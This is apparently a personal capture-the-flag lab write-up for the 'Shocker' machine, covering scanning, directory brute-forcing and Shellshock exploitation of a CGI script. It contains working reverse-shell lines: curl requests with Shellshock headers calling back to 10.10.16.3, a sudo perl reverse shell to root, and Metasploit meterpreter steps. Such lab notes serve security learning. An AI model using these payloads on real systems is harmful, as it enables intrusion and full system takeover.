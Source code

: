 # shocker, flow

## Summary

+ the msf keyword is not "apache 2.4.18", but *"apache cgi"*. Hence initially failed to pinpoint the info.

+ Hard to know the cgi shellshock vuln. (to know apache parse header as env, and the env parsing lead to a bash vulnerability.)

> "With the discovered user.sh script, and due to the lack of another attack surface, it is quite clear at this point that the exploit will be shellshock (Apache mod_cgi).
> There is a Metasploit module for this specific vulnerability, as well as a Proof of Concept on exploit-db."
> (official write-up)

+ mistook `search` with `searchsploit`

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 192.168.0.1
  # 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  # 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0
```

## searchsploit

```sh
searchsploit apache 2.4.18

  # reject
  # Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                          | php/remote/29290.c
  # Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                        | php/remote/29316.py
  # Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                      | multiple/dos/26710.txt
  # Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                      | linux/webapps/39642.txt
  # Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                        | multiple/remote/2061.txt
  # Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                      | unix/remote/14489.c
  # Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                | multiple/remote/6229.txt
  # Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)             | windows/webapps/42953.txt
  # Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)             | jsp/webapps/42966.py
  # Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                             | linux/dos/36906.txt
  # Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                         | linux/remote/34.pl

  # hold
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                     | unix/remote/21671.c
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                               | unix/remote/764.c
  # Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                               | unix/remote/47080.c

  # try
  # Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                                    | linux/local/46676.php
  # Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                         | linux/webapps/42745.py
```

```sh
cdee
cp /usr/share/exploitdb/exploits/linux/local/46676.php ~/assets/shocker/46665.php
  # Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation
cp /usr/share/exploitdb/exploits/linux/webapps/42745.py ~/assets/shocker/42745.py
  # Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak
cda
```

```sh
python3 42745.py shocker
  # no result
```

## gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://shocker/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://shocker/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## shellshock

+ ref: (shellshock basic) [https://fedoramagazine.org/shellshock-how-does-it-actually-work/]

```sh
env x='() { :;}; echo OOPS' bash -c :
  # env is inherited among shells.
  # the command is executed during importing.
```

```sh
curl -H "C: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/1337 0>&1" http://shocker/cgi-bin/user.sh
curl http://shocker/cgi-bin/user.sh -H "X-ABC: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/1337 0>&1" 
```

## post enum

```sh
ps aux # nothing interesting
sudo -l
  # User shelly may run the following commands on Shocker:
  #    (root) NOPASSWD: /usr/bin/perl
```

## privilege escalation

```sh
perl -e "system('echo 123')"
sudo perl -e 'use Socket;$i="10.10.16.3";$p=1339;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
  # perl reverse shell -> root
```

## msf

```sh
msf> searchsploit apache cgi
# Apache mod_cgi - 'Shellshock' Remote Command Injection                                                                   | linux/remote/34900.py

python ./34900.py payload=reverse rhost=10.129.1.175 lhost=10.10.16.3 lport=1337 pages=/cgi-bin/user.sh
  # 10.129.1.175> whoami
  # shelly
```

```msfconsole
msf> search apache cgi
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS 10.129.1.175
msf> set TARGETURI /cgi-bin/user.sh

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
